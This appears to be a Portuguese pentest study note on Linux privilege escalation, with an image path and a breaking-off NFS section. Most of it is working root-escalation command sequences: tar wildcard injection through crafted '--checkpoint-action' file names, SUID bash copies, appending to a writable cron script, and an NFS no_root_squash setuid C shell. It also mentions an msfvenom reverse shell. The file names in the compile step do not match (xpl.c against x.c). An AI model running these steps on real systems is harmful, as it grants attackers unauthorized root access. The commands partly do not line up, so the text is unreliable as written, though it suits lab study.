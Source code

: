 - Então a exploração envolve o tar

```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh
# Copia do bash pra temp modificando o SUID e salvando no arquivo

touch /home/user/--checkpoint=1
# Print o progresso a cada 1 número

touch /home/user/--checkpoint-action=exec=sh\ runme.sh
# Quando bater no checkpoint, vai executar o script sh

/tmp/bash -p
```

![[Pasted image 20230201114235.png]]

- O que aconteceu foi que, como ele executa tudo com wildcard no folder, ele executará como root `tar czf /tmp/backup.tar.gz --checkpoint=1 --checkpoint-action=exec=sh\ runme.sh` e chamará o script que modifica o SUID do bash colocado no temp.
- Também é possível criar uma revshell com msfvenom, transferir para a máquina alvo e criar o checkpoint action com `--checkpoint-action=exec=shell.elf`. Na máquina atacante, precisará de um listener para receber a configuração.

## Cron File Overwrite

- Checar se tem permissão de escrita nos arquivos executados no cronjob

```
ls -l /usr/local/bin/overwrite.sh
-rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh

echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh
# Quando o cron rodar, ele vai criar o /tmp/bash como root e com o SUID setado

/tmp/bash -p
```


___

# NFS

- Exploração de no_root_squash
- Para encontrar, precisa dar um `cat /etc/exports`
- Isso significa que é possível montar um folder, no caso: `/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)`

```
# Atacante:
showmount -e $ip
Export list for 10.10.69.114:
/tmp *

mkdir /tmp/mountme

sudo mount -o rw,vers=3 10.10.69.114:/tmp /tmp/mountme

echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/mountme/xpl.c

gcc /tmp/mountme/x.c -o /tmp/mountme/x

chmod +s /tmp/mountme/xpl

# Alvo:
cd /tmp
```
